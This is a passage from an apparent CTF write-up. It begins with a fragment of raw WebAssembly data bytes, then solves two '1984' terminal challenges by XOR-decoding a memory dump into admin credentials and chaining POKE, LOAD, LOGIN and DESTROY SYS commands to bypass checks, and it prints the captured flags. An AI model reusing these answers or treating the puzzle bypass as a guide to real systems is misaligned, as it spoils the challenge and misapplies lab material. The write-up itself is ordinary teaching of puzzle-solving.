service\00\00\00\00\00\00\00\00\00\a5\02[\00\f0\01\b5\05\8c\05%\01\83\06\1d\03\94\04\ff\00\c7\031\03\0b\06\bc\01\8f\01\7f\03\ca\04+\00\da\06\af\00B\03N\03\dc\01\0e\04\15\00\a1\06\0d\01\94\02\0b\028\06d\02\bc\02\ff\02]\03\e7\04\0b\07\cf\02\cb\05\ef\05\db\05\e1\02\1e\06E\02\85\00\82\02l\03o\04\f1\00\f3\03\18\05\d9\00\da\03L\06T\02{\01\9d\03\bd\04\00\00Q\00\15\02\bb\00\b3\03m\00\ff\01\85\04/\05\f9\048\00e\01F\01\9f\00\b7\06\a8\01s\02S\01\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00!\04\00\00\00\00\00\00\00\00/\02\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\005\04G\04V\04\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\a0\04\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00F\05`\05n\05a\06\00\00\cf\01\00\00\00\00\00\00\00\00\c9\06\e9\06\f9\06\1e\079\07I\07^\07")
(data (i32.const 69560) "]\00\01\00j\03\01\00\95\02\01\00\f0\03\01\00v\04\01\00\0c\03\01\00\ca\04\01\00\00 \00\00\05\00\00\00\00\00\00\00\00\00\00\00\04\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\02\00\00\00\01\00\00\00T\11\02\00\00\00\00\00\00\00\00\00\00\00\00\00\02\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\ff\ff\ff\ff\ff\ff\ff\ff\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\d8\0f\01\00P\13\02\00")
)

```

Now at this step it took me some time to analyse and discuss this with chatgpt lol so next thing i do was to check DIR and checked files like syslog:


DMP @0400: 41 44 4D 49 4E 3A 47 30 30 44 42 30 59

Which when get XORed by 0x42 gives us:

A D M I N : G 0 0 D B 0 Y

And after explaining the writeup to staff i got the flag:

`FLAG{g00db0ys_g37_4cc3$$}`

## **1984 Pt. 2**

This is second part of 1984 challenge and so functionalities were similiar.

The challenge is a state-machine puzzle disguised as a terminal. The flag is behind a hidden "self-destruct" command (DESTROY SYS) which is locked by three conditions.

The hints provided in the binary are not merely suggestions; they are a step-by-step instruction manual for defeating the security.

Use POKE to write the correct byte values to memory addresses 49152 through 49159 to satisfy the XOR checksum.

The first four bytes are given: 25, 51, 187, 162. Their XOR sum is 0x33.

The target XOR sum is 0x42.

The required XOR sum for the remaining four bytes is 0x33 ^ 0x42 = 0x71.

We will poke 113 (0x71) followed by three 0s.

Use LOAD SECURITY.SYS to set the security module flag.

Use LOGIN ADMIN G00DB0Y to set the login flag.

Finally, call DESTROY SYS to bypass all checks and print the flag.


After explaining the writeup to admin, we were given the flag:

`FLAG{C64_BBS_PURGED_SUCCESSFULLY} - pt2`

# AI

## **SassyGPT: Hardcore Mode**

